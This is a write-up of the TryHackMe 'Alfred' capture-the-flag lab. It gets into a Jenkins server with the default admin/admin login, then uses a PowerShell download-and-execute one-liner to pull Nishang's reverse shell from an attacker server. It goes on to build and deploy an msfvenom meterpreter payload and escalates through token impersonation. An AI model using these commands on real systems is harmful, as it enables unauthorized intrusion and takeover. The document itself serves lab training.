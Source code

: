 Write-up for the Alfred CTF of TryHackMe.

# 1. Recon

Nmap scan result : 

| PORT          | STATE SERVICE                  | REASON                               | VERSION                                 |
|---------------|--------------------------------|--------------------------------------|-----------------------------------------|
| 80/tcp        | open                           | http                                 | syn-ack ttl 127 Microsoft IIS httpd 7.5 |
| 3389/tcp open | ms-wbt-server? syn-ack ttl 127 |                                      |                                         |
| 8080/tcp open | http                           | syn-ack ttl 127 Jetty 9.4.z-SNAPSHOT |                                         |

# 2. Getting access

### Accessing the web app

On the port 8080, we can find a webserver running the Jenskin web application.
Jenskin is an open source automation server which enables developers around the world to reliably build, test, and deploy their software.

We are facing a login form. Since we don't have any creds or clues, we can search online for the default creds for the jenkins web app.
We can find that the default user is <strong>admin</strong>
Let's try admin for password. and it works.

### Finding a fonctionnality to get a shell

We need to enumerate the web application to find an endpoint to spawn a shell on the system.
Let's try to make a new item.
Calling it "shell", in a "freestyle project"
In the "build" section, "add build step" > "Execute windows batch command"
Here, we can execute a command.

We will use the <strong>[Nishang](https://github.com/samratashok/nishang)</strong>, the <strong>[Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang)</strong> script
We need to host the script on our server using a python server.
On the jenkins app, we will use this command:
> powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]
  
On it's done, click on "Build now" and you should get a shell.
  
# 3. Upgrading our shell
  
For more stability, we will upgrade our standard shell to a meterpreter shell.
We first need to create an executable for meterpreter using <strong>msfvenom</strong>
> msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.111.220 LPORT=4443 -f exe -e x86/shikata_ga_nai > shell.exe
  
Then we need to upload it to the target :
> powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"
Once done, don't forget to start a metasploit listener for our payload.
Start the shell using :
> Start-Process 'shell_name.exe'
  
# 4. Getting administrator access
  
We will use token impersonation to elevate.
To control permission level, windows use tokens, and thoses token can be impersonate, like Tom can use the token of Fred, and if Fred has greater permission, Tom can his app using them.
First, we need to check our permissions :
> whoami /priv
  
I just show permissions we have
  
| Privilege Name                                               | Description                                | State    |
|--------------------------------------------------------------|--------------------------------------------|----------|
| SeDebugPrivilege                                             | Debug programs                             | <strong>Enabled</strong>  |
| SeChangeNotifyPrivilege                                      | Bypass traverse checking                   | <strong>Enabled</strong>  |
| SeImpersonatePrivilege                                       | Impersonate a client after authentication  | <strong>Enabled</strong>  |
| SeCreateGlobalPrivilege                                      | Create global objects                      | <strong>Enabled</strong>  |

  
We can see that we have the <strong>SeImpersonatePrivilege</strong> permission.
To check what we can impersonate, we will use the <strong>Incognito</strong> module of meterpreter
> load incognito
Then, to view which tokens we can impersonate :
> list_tokens -g
  
We can see that the 'BUILTIN\Administrators' is available. Let's impersonate it.
> impersonate_token 'BUILTIN\Administrators'
  
Now we need to migrate at an other program running with SYSTEM permission to ensure that we can use Administrator permissions.
